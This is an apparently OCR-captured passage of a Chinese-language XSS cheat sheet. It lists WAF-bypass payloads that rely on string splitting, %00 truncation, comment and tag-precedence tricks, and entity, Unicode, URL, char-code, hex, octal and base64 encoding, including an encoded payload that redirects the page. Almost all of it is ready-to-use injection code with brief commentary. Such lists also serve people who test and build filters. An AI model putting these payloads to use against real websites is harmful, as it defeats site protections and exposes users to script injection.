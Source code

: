 #### 利用 top

```js
<script>top["al"+"ert"](`xss`);</script>
```

#### %00截断绕过

```js
<a href=javascr%00ipt:alert(1)>xss</a>
```

#### 其它字符混淆

有的 waf 可能是用正则表达式去检测是否有 xss 攻击,如果我们能 fuzz 出正则的规则,则我们就可以使用其它字符去混淆我们注入的代码了,举几个简单的例子

可利用注释、标签的优先级等
```js
<<script>alert("xss");//<</script>
<title><img src=</title>><img src=x onerror="alert(`xss`);"> //因为 title 标签的优先级比 img 的高,所以会先闭合 title,从而导致前面的 img 标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

#### 通过编码绕过
```js
实体编码
javascrip&#x74;:alert(1) 十六进制
javascrip&#116;:alert(1) 十进制

Unicode编码绕过
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">

<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">

url编码绕过
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">

<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

Ascii码绕过
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

hex绕过
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

八进制
<img src=x onerror=alert('\170\163\163')>

base64绕过
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```
